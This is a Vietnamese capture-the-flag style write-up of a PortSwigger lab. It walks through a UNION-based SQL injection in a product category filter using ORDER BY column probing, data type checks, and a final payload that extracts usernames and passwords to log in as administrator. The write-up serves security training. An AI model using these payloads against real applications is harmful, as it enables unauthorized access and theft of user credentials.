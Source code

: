 ![[Pasted image 20220617095400.png]](https://github.com/LanPhuong07/PortSwigger/blob/main/pic/Pasted%20image%2020220617095400.png)

---------------

**MÔ TẢ**

Lab này chứa lỗ hổng SQL injection trong bộ lọc danh mục sản phẩm. Kết quả từ truy vấn được trả về trong phản hồi của ứng dụng, vì vậy bạn có thể sử dụng UNION để tấn công truy xuất dữ liệu từ các bảng khác. Để thực hiện một cuộc tấn công như vậy, bạn cần kết hợp một số kỹ thuật bạn đã học trong các phòng thí nghiệm trước đó.

Cơ sở dữ liệu chứa một bảng khác được gọi là ``user``, với các cột được gọi là ``username`` và ``password``.

Để giải quyết lab, cần thực hiện một cuộc tấn công SQL injection UNION để truy xuất tất cả usernames và passwords, đồng thời sử dụng thông tin để đăng nhập với tư cách ``administrartor``.

<h1>HƯỚNG DẪN</h1>

Bước 1: Xác định số cột
Bước 2: Xác định kiểu dữ liệu
Bước 3: Thực hiện tấn công

<h1>GIẢI QUYẾT</h1>

<h2>1) Xác định số cột</h2> 

> 'order by 1--
> 'order by 2--
> 'order by 3-- -> 500

-> Số cột của bảng là 2

<h2>2) Xác định kiểu dữ liệu của các cột</h2>

Chọn a, b từ các sản phẩm mà ``?category=Lifestyle'``

> 'UNION select 'a', NULL--
> 'UNION select 'a ',' b '--

-> cả hai cột đều thuộc kiểu dữ liệu string

![[Pasted image 20220617100445.png]](https://github.com/LanPhuong07/PortSwigger/blob/main/pic/Pasted%20image%2020220617100445.png)

> ' UNION select username, password from users--

![[Pasted image 20220617100526.png]](https://github.com/LanPhuong07/PortSwigger/blob/main/pic/Pasted%20image%2020220617100526.png)

Đăng nhập thành công!

![[Pasted image 20220617100635.png]](https://github.com/LanPhuong07/PortSwigger/blob/main/pic/Pasted%20image%2020220617100635.png)